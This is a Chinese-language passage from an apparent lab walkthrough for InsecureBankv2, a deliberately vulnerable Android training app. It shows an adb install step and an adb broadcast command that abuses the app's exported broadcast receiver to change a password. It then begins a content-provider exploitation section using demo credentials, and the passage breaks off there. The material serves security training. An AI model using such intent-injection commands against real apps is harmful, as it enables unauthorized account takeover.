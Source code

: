 - 将 `InsecureBankv2.apk` 复制到 `Android SDK` 的 `platform-tools` 文件夹下，在模拟器运行时，执行以下命令：

    ```bash
    adb install InsecureBankv2.apk
    ```

- 再次打开 `InsecureBankv2`

- 回到 `platform-tools` 文件夹并在命令行执行以下命令：

    ```bash
    adb shell am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 –es newpass Dinesh@123!
    ```

    ![](img/broadcast-done.png)

---

### Exploiting Android Content Provider

- 使用 `jack/Jack@123$` 登陆

- 同上述实验对 `apk` 文件进行反编译，找到反编译后的 `AndroidManifest.xml` 文件，找到如下代码：

    ![](img/contentprovider-code.png)
